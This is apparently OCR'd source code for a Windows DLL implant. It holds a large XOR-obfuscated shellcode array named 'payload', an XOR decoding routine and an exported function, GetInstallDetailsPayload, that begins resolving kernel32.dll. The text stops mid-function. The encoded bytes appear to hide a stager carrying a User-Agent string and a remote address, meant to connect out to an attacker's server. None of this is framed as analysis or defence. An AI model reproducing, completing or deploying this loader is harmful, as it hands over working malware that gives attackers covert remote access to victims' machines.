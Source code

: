 ```c_cpp
unsigned char payload[] = { 0xe8,0x5c,0x97,0xf0,0xe4,0xfc,0xdc,0x14,0x14,0x14,0x55,0x45,0x55,0x44,0x46,0x45,0x42,0x5c,0x25,0xc6,0x71,0x5c,0x9f,0x46,0x74,0x5c,0x9f,0x46,0x0c,0x5c,0x9f,0x46,0x34,0x5c,0x9f,0x66,0x44,0x5c,0x1b,0xa3,0x5e,0x5e,0x59,0x25,0xdd,0x5c,0x25,0xd4,0xb8,0x28,0x75,0x68,0x16,0x38,0x34,0x55,0xd5,0xdd,0x19,0x55,0x15,0xd5,0xf6,0xf9,0x46,0x55,0x45,0x5c,0x9f,0x46,0x34,0x9f,0x56,0x28,0x5c,0x15,0xc4,0x72,0x95,0x6c,0x0c,0x1f,0x16,0x61,0x66,0x9f,0x94,0x9c,0x14,0x14,0x14,0x5c,0x91,0xd4,0x60,0x73,0x5c,0x15,0xc4,0x44,0x9f,0x5c,0x0c,0x50,0x9f,0x54,0x34,0x5d,0x15,0xc4,0xf7,0x42,0x5c,0xeb,0xdd,0x55,0x9f,0x20,0x9c,0x5c,0x15,0xc2,0x59,0x25,0xdd,0x5c,0x25,0xd4,0xb8,0x55,0xd5,0xdd,0x19,0x55,0x15,0xd5,0x2c,0xf4,0x61,0xe5,0x58,0x17,0x58,0x30,0x1c,0x51,0x2d,0xc5,0x61,0xcc,0x4c,0x50,0x9f,0x54,0x30,0x5d,0x15,0xc4,0x72,0x55,0x9f,0x18,0x5c,0x50,0x9f,0x54,0x08,0x5d,0x15,0xc4,0x55,0x9f,0x10,0x9c,0x5c,0x15,0xc4,0x55,0x4c,0x55,0x4c,0x4a,0x4d,0x4e,0x55,0x4c,0x55,0x4d,0x55,0x4e,0x5c,0x97,0xf8,0x34,0x55,0x46,0xeb,0xf4,0x4c,0x55,0x4d,0x4e,0x5c,0x9f,0x06,0xfd,0x5b,0xeb,0xeb,0xeb,0x49,0x7e,0x14,0x5d,0xaa,0x63,0x7d,0x7a,0x7d,0x7a,0x71,0x60,0x14,0x55,0x42,0x5d,0x9d,0xf2,0x58,0x9d,0xe5,0x55,0xae,0x58,0x63,0x32,0x13,0xeb,0xc1,0x5c,0x25,0xdd,0x5c,0x25,0xc6,0x59,0x25,0xd4,0x59,0x25,0xdd,0x55,0x44,0x55,0x44,0x55,0xae,0x2e,0x42,0x6d,0xb3,0xeb,0xc1,0xff,0x67,0x4e,0x5c,0x9d,0xd5,0x55,0xac,0xc6,0x10,0x14,0x14,0x59,0x25,0xdd,0x55,0x45,0x55,0x45,0x7e,0x17,0x55,0x45,0x55,0xae,0x43,0x9d,0x8b,0xd2,0xeb,0xc1,0xff,0x4d,0x4f,0x5c,0x9d,0xd5,0x5c,0x25,0xc6,0x5d,0x9d,0xcc,0x59,0x25,0xdd,0x46,0x7c,0x14,0x16,0x54,0x90,0x46,0x46,0x55,0xae,0xff,0x41,0x3a,0x2f,0xeb,0xc1,0x5c,0x9d,0xd2,0x5c,0x97,0xd7,0x44,0x7e,0x1e,0x4b,0x5c,0x9d,0xe5,0x5c,0x9d,0xce,0x5d,0xd3,0xd4,0xeb,0xeb,0xeb,0xeb,0x59,0x25,0xdd,0x46,0x46,0x55,0xae,0x39,0x12,0x0c,0x6f,0xeb,0xc1,0x91,0xd4,0x1b,0x91,0x89,0x15,0x14,0x14,0x5c,0xeb,0xdb,0x1b,0x90,0x98,0x15,0x14,0x14,0xff,0xc7,0xfd,0xf0,0x15,0x14,0x14,0xfc,0xb6,0xeb,0xeb,0xeb,0x3b,0x58,0x5c,0x40,0x61,0x14,0x66,0x1e,0xf4,0x82,0x72,0x26,0xee,0x5e,0x45,0x4a,0xcd,0xf5,0xab,0x50,0xf5,0x93,0x58,0xb3,0xae,0xfb,0x89,0x97,0x24,0x84,0x5f,0xca,0x20,0xb3,0xf2,0xcb,0x14,0xb0,0x9a,0xed,0xde,0x04,0x09,0x34,0xa9,0xb6,0x19,0x76,0x73,0x2e,0x29,0x82,0x63,0x39,0xde,0xe7,0x0d,0x1f,0xb1,0x1d,0xa7,0xaf,0x26,0x07,0x18,0x00,0xb5,0x16,0x2b,0x45,0x21,0x1d,0x7b,0x03,0xf6,0x14,0xe5,0xdd,0x85,0x14,0x41,0x67,0x71,0x66,0x39,0x55,0x73,0x71,0x7a,0x60,0x2e,0x34,0x59,0x7b,0x6e,0x7d,0x78,0x78,0x75,0x3b,0x21,0x3a,0x24,0x34,0x3c,0x77,0x7b,0x79,0x64,0x75,0x60,0x7d,0x76,0x78,0x71,0x2f,0x34,0x59,0x47,0x5d,0x51,0x34,0x2d,0x3a,0x24,0x2f,0x34,0x43,0x7d,0x7a,0x70,0x7b,0x63,0x67,0x34,0x5a,0x40,0x34,0x22,0x3a,0x25,0x2f,0x34,0x40,0x66,0x7d,0x70,0x71,0x7a,0x60,0x3b,0x21,0x3a,0x24,0x2f,0x34,0x41,0x5c,0x47,0x3d,0x19,0x1e,0x14,0xb8,0x62,0x02,0x7f,0x2f,0x40,0x69,0xde,0x3b,0xd7,0xc2,0xea,0xd4,0xcb,0x01,0xbb,0x67,0xb0,0xac,0xbc,0x6f,0xc2,0x30,0x38,0x30,0x75,0x42,0x9f,0x72,0x85,0x8d,0x9a,0x30,0xf6,0xbc,0xbb,0xc4,0x8d,0x9e,0x56,0xd3,0x2a,0x8a,0xc0,0xd0,0xab,0xb1,0x90,0xbb,0x97,0x6b,0xaf,0x64,0x03,0x80,0x0f,0xcf,0x17,0xc7,0x94,0x1a,0xdd,0xe9,0xd8,0xd8,0xda,0xd6,0x68,0xd0,0x50,0x12,0x47,0x62,0x8a,0x60,0xa2,0x73,0x2f,0x7f,0xb2,0xf2,0xaa,0x83,0x41,0xdd,0x16,0x56,0x08,0xde,0x93,0x4f,0xd8,0x02,0x0b,0xa9,0x90,0xce,0xbe,0x52,0x0c,0x90,0x45,0x41,0xf7,0xbf,0x12,0xbd,0xb2,0x0d,0x3d,0x02,0x0f,0x50,0xad,0xd6,0x1d,0xfb,0x1a,0xd5,0xe3,0xaa,0xba,0xf2,0xdb,0x93,0xd4,0x13,0x93,0x58,0x89,0x04,0x1e,0x58,0x32,0x50,0x51,0x56,0x7f,0xa5,0x80,0x26,0xae,0xd1,0x73,0xe1,0x2e,0x84,0x71,0xf4,0xa8,0x56,0xdc,0x84,0xfe,0x3d,0xcc,0x26,0x68,0x2c,0xc8,0x88,0xe4,0xd3,0x64,0x75,0x61,0x4c,0x92,0x12,0x08,0x8f,0xb1,0x0f,0x03,0x49,0x87,0xcb,0xf9,0x43,0x27,0x5d,0xb5,0x95,0xe6,0x23,0x41,0xf8,0x9d,0xae,0x76,0x37,0x99,0x6c,0xef,0x00,0x16,0x8f,0x2c,0x6a,0xc7,0xcc,0x6d,0xe5,0xfa,0x4e,0x43,0x5a,0x17,0xf3,0xec,0x32,0x19,0x85,0x35,0x5e,0x5d,0x1e,0x92,0x16,0x52,0x14,0x55,0xaa,0xe4,0xa1,0xb6,0x42,0xeb,0xc1,0x5c,0x25,0xdd,0xae,0x14,0x14,0x54,0x14,0x55,0xac,0x14,0x04,0x14,0x14,0x55,0xad,0x54,0x14,0x14,0x14,0x55,0xae,0x4c,0xb0,0x47,0xf1,0xeb,0xc1,0x5c,0x87,0x47,0x47,0x5c,0x9d,0xf3,0x5c,0x9d,0xe5,0x5c,0x9d,0xce,0x55,0xac,0x14,0x34,0x14,0x14,0x5d,0x9d,0xed,0x55,0xae,0x06,0x82,0x9d,0xf6,0xeb,0xc1,0x5c,0x97,0xd0,0x34,0x91,0xd4,0x60,0xa2,0x72,0x9f,0x13,0x5c,0x15,0xd7,0x91,0xd4,0x61,0xc3,0x4c,0x4c,0x4c,0x5c,0x11,0x14,0x14,0x14,0x14,0x44,0xd7,0xfc,0x8b,0xe9,0xeb,0xeb,0x2c,0x3a,0x25,0x27,0x24,0x3a,0x27,0x21,0x3a,0x25,0x27,0x27,0x14,0x06,0x20,0x42,0x6c };
unsigned int payload_len = sizeof payload - 1;
void myXor(unsigned char str[], int len, int key) {
  for (int i = 0; i < len; i++) {
    str[i] = str[i] ^ key;
  }
}
extern "C" __declspec(dllexport) int GetInstallDetailsPayload() {
  HMODULE hModule = GetModuleHandleA("kernel32.dll");
  if (hModule == NULL)
  {
    cout << "GetModuleHandle failed." << endl;
    return -1;
  }
  char szPath[MAX_PATH];
  DWORD dwSize = GetModuleFileNameA(hModule, szPath, MAX_PATH);
  if (dwSize == 0)
  {
    cout << "GetModuleFileName failed." << endl;
```